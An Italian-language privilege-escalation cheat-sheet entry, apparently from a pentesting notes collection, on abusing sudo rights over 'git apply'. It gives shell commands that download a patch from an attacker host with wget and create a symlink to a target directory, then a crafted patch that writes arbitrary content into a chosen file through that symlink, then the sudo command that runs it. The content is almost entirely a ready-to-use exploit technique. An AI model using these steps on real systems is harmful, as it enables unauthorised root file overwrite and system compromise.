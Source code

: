 ### **APPLY**
Se git apply ha il sudo puoi sovrascrivere i file
```bash
mkdir repo 
cd repo
wget http://<IP>/patch
git init
ln -s <PATH CARTELLA DOVE è PRESENTE IL FILE> symlink
```
Il contenuto della patch è
```PATCH
diff --git a/symlink b/renamed-symlink 
similarity index 100% 
rename from symlink rename to renamed-symlink 
-- 
diff --git /dev/null b/renamed-symlink/create-me
new file mode 100644 
index 0000000..039727e 
--- /dev/null 
+++ b/renamed-symlink/<FILE DA SCRIVERE> 
@@ -0,0 +1,1 @@ 
+<COSA DA SCRIVERE>
```
Il comando per eseguire la patch è
```bash
sudo /usr/bin/git apply patchù
```

